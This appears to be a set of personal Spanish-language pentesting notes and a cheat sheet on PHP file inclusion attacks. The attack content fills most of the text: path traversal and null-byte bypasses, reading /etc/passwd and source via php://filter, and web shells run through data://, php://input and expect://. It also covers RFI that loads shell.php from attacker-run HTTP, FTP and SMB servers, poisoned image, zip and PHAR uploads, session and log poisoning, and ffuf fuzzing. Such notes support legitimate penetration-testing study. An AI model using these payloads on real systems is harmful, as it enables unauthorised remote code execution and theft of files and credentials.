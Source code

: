 ### LFI

intentar movimientos de path transversal:
tricks:
agregar una / si el parametro responde solo a archivos con una nomenclatura: "lang_".
agregar recursividad para que, al limpiar, el filtro elimine los bad chars permitiendonos generar uno nuevo: ....// el filtro
buscará "../" este patrón, al eliminarlo nos quedará nuevamente un "../"
encodear en unrl una o más veces el payload.

#### filtros php:

podemos usar filtros php para poder leer el código fuente de archivos: php://filter/read=convert.base64-encode/resource=config

podemos encontrar posibilidades de path transversal en la carga de objetos externos dentro del html:

        <img src="/loadImage?filename=218.png">

podríamos utilizar esta funcionalidad encontrada en el img dentro de la barra de búsqueda:

        https://insecure-website.com/loadImage?filename=../../../etc/passwd

mismo ejemplo en windows:

        https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini


Cuando abrimos un archivo alojado en el servidor como por ejemplo, una imagen (accediendo al archivo en sí) podemos interceptar
la request e intentar, si hay una variable de entorno que lo llama, un path transversal

Aveces la funcionalidad que carga los archivos tiene una validación de extensión para determinar que el file es el correcto.
esto podemos bypassearlo agregando algunos chars como 00%:
        filename=../../../etc/passwd%00.png

### RCE

podemos lograr rce utilizando el filtro "data" si el parametro allow_url_include se encuentra habilitado:

##### idea:
                data://text/plain;base64,"web shell en base64"&"parametro de la shell"="comando"

##### aplicación:

                data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd="comando"

para métodos POST podemos utilizar el filtro "input":

##### ejemplo en curl:


                curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid

En algunos casos los servidores pueden tener instalado el filtro expect que permite en sí mismo correr comandos:


##### ejemplo en curl:
                curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"




### RFI

Una buena forma de probar RFI es inducando un servicio interno, como por ejemplo "http:127.0.0.1:80/index.php". De esta manera
si el RFI es posible, cargará la página principal en el espacio debido.

Luego podemos levantar distintos tipos de servidores donde alijamos una shell php.

##### Http:
                sudo python3 -m http.server <LISTENING_PORT> (http://<OUR_IP>/shell.php&cmd=id)
##### FTP
                sudo python -m pyftpdlib -p 21 (ftp://<OUR_IP>/shell.php&cmd=id)
##### SMB
                impacket-smbserver -smb2support share $(pwd) (este se usaría: \\<OUR_IP>\share\shell.php&cmd=whoami)


########################fileuploads

###################SUbir imagenes envenenadas
podemos subir imagenes envenenadas y aprovechar el LFI para acceder a las mismas con ejecución de código:

http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id


################Zip FILES
podemos aprovechar también, si se encuentra permitida, la subida de archivos zip para crear un archivo Zip con 
extensión JPG:
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id


############### PHAR files
Podemos aprovechar también los PHAR:

creamos una shell con el siguiente código:
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();

luego:
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg

luego lo subimos y ejecutamos:
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id



###########################LOG POISONING:

podemos envenenar un logs sobre los que tenga privilegios de lectura:


############PHP SESSION POISONING:

CUando un sitio usa una cookie PHPSESSID, guarda estos archivos en el backend:
en linux: /var/lib/php/sessions/
windows: C:\Windows\Temp\
si la cookie tiene el valor "el4ukv0kqbvoirg7nkp4dncpk3" será guardada en /var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3

Si podemos acceder a nuestra session por medio de LFI, podemos ver los parametros que guarda y relacionarlos con los parametros
que podemos controlar dentro del sitio, ejemplo: si el sitio nos permite cambiar de lenguaje, este sería un excelete parametro.
podríamos cambiar el valor de el parametro con LFI por cualquier otro dato:
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
luego ingresar nuevamente al log de la sesión y ver si este último dato se encuentra en el mismo.
Podríamos entonces agregar una shell simple:
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
y luego evocarla desde el FLI
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id


#############Server log poisoning

apache y ngnx guardan varios logs como access.log y error.log

el access.log guarda request hechas al server, y entre todos los campos podemos encontrar el user-agent. Si podemos acceder a
este log, con modificar el user-agent en una request podemos acceder a una shell.
Ngnx permite esta lectura a usuarios con bajos privilegios, mientras que apache solo a admins o roots(aunque en versiones viejas
o mal configuradas puede funcionar)
los logs de apache están guardados por default en:
linux : /var/log/apache2/
windows: C:\xampp\apache\logs\

mientras que en nginx:
linux: /var/log/nginx/
windows: C:\nginx\log\

podriamos visitar alguno de estos logs envenenando el user agent, luego cuando los volvamos a visitar, podríamos agregar el
parametro de la shell y tirar comandos


podemos probar esto en otros logs como:

    /var/log/sshd.log
    /var/log/mail
    /var/log/vsftpd.log
Dependiendo de a qué tengamos acceso.


También podemos probar envenenar los proc /proc/self/environ o /proc/self/fd/(N) (N es un número usualmente de 0 a 50)

################################## Automatización:




Podemos buscar parámetros con fuff y luego probar con el intruder de burp la lista "SecLists/Fuzzing/LFI/LFI-Jhaddix.txt"
Parametros:
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value'

valores:
ffuf -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ'


###Relative paths:

Algunas veces no sabémos cómo llegar a un archivo envenenado que subimos. podemos usar listas específicas con fuff para
determinar el path de de la web:
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
Esta lista tiene su par en windows en el mismo directorio.

###log paths:

listas recomendadas:

https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux
https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287




